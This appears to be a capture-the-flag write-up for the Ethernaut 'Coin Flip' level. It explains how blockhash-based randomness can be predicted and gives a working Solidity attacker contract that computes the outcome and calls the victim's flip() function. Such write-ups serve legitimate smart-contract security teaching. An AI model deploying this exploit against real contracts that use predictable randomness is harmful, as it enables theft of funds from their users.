 # Coinflip

The contract `breakcoinflip.sol`, and more specifically, the attack() function, is what takes advantage of the contract.

The vulnerability of Coin Flip lies in the fact that it takes the result from getting the random value from the hash of the latest block. Although the hash itself is random, we can get that random value at the time of the flip() execution, so that we can predict the result of the calculation, and thus win the game.

The attack() function automates the calculation and the call to the flip() function.


Contract code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


//Contract meant for breaking the Coin Flip smart contract from ethernaut:
//https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF

contract BreakCoinflip {
    
    address victim;
    address owner;


    constructor(address ownerAddr ,address victimAddress) {
        victim = victimAddress;
        owner = ownerAddr;
    }

    modifier onlyOwner(){
        require(msg.sender == owner);
        _;
    }

    function attack() external onlyOwner returns (bool, bytes memory){
        uint256 factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / factor;
        bool side = coinFlip == 1 ? true : false;            
        (bool success, bytes memory data ) = victim.call(
            abi.encodeWithSignature("flip(bool)", side)
        );
        return (success, data);
    }

    
}
```

